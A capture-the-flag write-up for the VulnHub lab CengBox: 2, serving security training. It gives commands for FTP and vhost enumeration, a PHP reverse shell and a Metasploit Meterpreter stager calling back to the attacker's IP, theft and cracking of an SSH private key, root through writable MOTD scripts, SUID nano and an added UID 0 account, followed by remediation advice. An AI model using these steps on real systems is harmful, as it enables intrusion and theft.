


# CengBox: 2 — Writeup

| Field | Value |
|---|---|
| **Target IP** | 192.168.1.104 |
| **Attacker IP** | 192.168.1.112 (Kali Linux) |
| **Difficulty** | Medium |
| **OS** | Linux |
| **Goal** | `user.txt` + `root.txt` |
| **Source** | [HackingArticles](https://www.hackingarticles.in/cengbox-2-vulnhub-walkthrough/) |

---

## Attack Summary

CengBox: 2 chains several misconfigurations: anonymous FTP leaking user enumeration data, a hidden virtual host hosting Gila CMS with default credentials, CMS-based PHP code editing for remote code execution, lateral movement via a sudo-allowed PHP script, SSH private key extraction and cracking, and finally privilege escalation through writable MOTD scripts that run as root on SSH login.

---

## Methodology

1. Port scan and anonymous FTP enumeration
2. Virtual host and subdomain discovery
3. Gila CMS login and RCE via PHP file editing
4. Lateral movement to `swartz` via sudo
5. SSH private key theft and passphrase cracking
6. Privilege escalation via writable `/etc/update-motd.d/` scripts
7. Root shell via SUID nano and `/etc/passwd` manipulation

---

## Step 1: Port Scan

```bash
netdiscover
nmap -A 192.168.1.104
```

**Open ports:**
- 21 — FTP (vsftpd, anonymous login allowed)
- 22 — SSH
- 80 — HTTP



---

## Step 2: Anonymous FTP Enumeration

The FTP server accepts anonymous login. A `note.txt` file is present:

```bash
ftp 192.168.1.104
# Username: Anonymous
# Password: (blank)
ls
get note.txt
bye
cat note.txt
```

The note mentions two users, **Kevin** and **Aaron**, and hints that the CMS is using default credentials.

Add the target's virtual hostname to `/etc/hosts`:

```
192.168.1.104   ceng-company.vm
```

Browse to `http://ceng-company.vm` — a maintenance page is shown. Directory brute-forcing returns nothing actionable. Subdomain enumeration reveals a hidden vhost:

```bash
gobuster vhost -u http://ceng-company.vm/ -w /usr/share/seclists/Discovery/DNS/subdomains-top1mil-5000.txt
```

**Found:** `admin.ceng-company.vm`

Add to `/etc/hosts`:

```
192.168.1.104   admin.ceng-company.vm
```

A further DirBuster/gobuster scan of `http://admin.ceng-company.vm/` discovers the path `/gila`.


---

## Step 3: Gila CMS Authentication

Browse to `http://admin.ceng-company.vm/gila/`. The CMS login requires an email address. Using the username hint from the FTP note:

- **Email:** `kevin@ceng-company.vm`
- **Password:** `admin`

Login succeeds — default credentials were not changed.



---

## Step 4: Remote Code Execution via CMS File Editor

Inside Gila CMS, navigate to the file manager and locate an existing PHP file. Edit it and replace the contents with a pentestmonkey PHP reverse shell, setting `$ip` to `192.168.1.112` and `$port` to `1234`.

Start a listener on the attacker machine:

```bash
nc -lvnp 1234
```

Load the edited PHP file in the browser. A reverse shell connects back. Upgrade to a full TTY:

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

---

## Step 5: Lateral Movement to `swartz`

Check sudo permissions for the current web user:

```bash
sudo -l
```

The web user can run `/home/swartz/runphp.sh` as `swartz` without a password:

```bash
sudo -u swartz /home/swartz/runphp.sh
```

This drops into an interactive PHP shell running as `swartz`.

---

## Step 6: Meterpreter Session via Web Delivery

From the attacker machine, use Metasploit's `web_delivery` module to stage a Meterpreter session:

```bash
msfconsole
use exploit/multi/script/web_delivery
set TARGET 1
set PAYLOAD php/meterpreter/reverse_tcp
set LHOST 192.168.1.112
set LPORT 8888
exploit
```

Paste the generated PHP stager into the swartz PHP shell. A Meterpreter session opens as `swartz`.

---

## Step 7: SSH Key Theft and Passphrase Cracking

Browse the filesystem through Meterpreter. The user `mitnick` has a `.ssh` directory with a private key (`id_rsa`). Download it:

```bash
download /home/mitnick/.ssh/id_rsa /tmp/key
```

Crack the key's passphrase:

```bash
/usr/share/john/ssh2john.py /tmp/key > /tmp/hash
john --wordlist=/usr/share/wordlists/rockyou.txt /tmp/hash
```

**Passphrase cracked:** `legend`

SSH as mitnick and read `user.txt`:

```bash
chmod 600 /tmp/key
ssh -i /tmp/key mitnick@192.168.1.104
cat ~/user.txt
```

---

## Step 8: Privilege Escalation — Writable MOTD Scripts

Transfer and run `pspy64s` to observe process execution as root:

```bash
cd /tmp
wget http://192.168.1.112:8000/pspy64s
chmod +x pspy64s
./pspy64s
```

`pspy` shows that scripts inside `/etc/update-motd.d/` are executed as **root** every time a user logs in via SSH. Check the permissions:

```bash
ls -la /etc/update-motd.d/
```

The files are **world-writable**. Edit `00-header` to add a line that sets the SUID bit on `nano`:

```bash
nano /etc/update-motd.d/00-header
# Add at the end:
chmod u+s /bin/nano
```

Trigger the MOTD by reconnecting via SSH:

```bash
exit
ssh -i /tmp/key mitnick@192.168.1.104
ls -la /bin/nano    # should show -rwsr-xr-x
```


---

## Step 9: Root via `/etc/passwd` Editing

With SUID nano, edit `/etc/passwd` directly:

```bash
# Generate a password hash for the new user
openssl passwd -1 -salt user3 pass123
# Outputs something like: $1$user3$...

nano /etc/passwd
# Append a new UID 0 user:
# raj:$1$user3$<HASH>:0:0:root:/root:/bin/bash
```

Save and switch to the new root-equivalent user:

```bash
su raj
# Password: pass123
cd /root
cat root.txt
```


---

## Lessons Learned

- Anonymous FTP should never expose internal notes or user lists.
- Default CMS credentials must be changed before deployment.
- Virtual hosts and hidden CMS directories should require authentication and not be discoverable via brute-force.
- MOTD scripts (`/etc/update-motd.d/`) must be root-owned and not world-writable.
- SSH private keys should use strong passphrases and be stored with appropriate permissions.
- Processes that execute scripts as root must run those scripts from root-owned, non-writable paths.

---

## Remediation

| Vulnerability | Fix |
|---|---|
| Anonymous FTP leaking notes | Disable anonymous FTP; require authentication |
| Default Gila CMS credentials | Change default admin credentials immediately after install |
| Hidden vhost discoverable by brute-force | Restrict subdomain enumeration; apply auth to admin vhost |
| CMS file editor allowing PHP editing | Disable file editing in CMS admin panels in production |
| Writable MOTD scripts executed as root | `chown root:root /etc/update-motd.d/*; chmod 755 /etc/update-motd.d/*` |
| Weak SSH key passphrase (`legend`) | Use a strong, unique passphrase; rotate key pairs periodically |
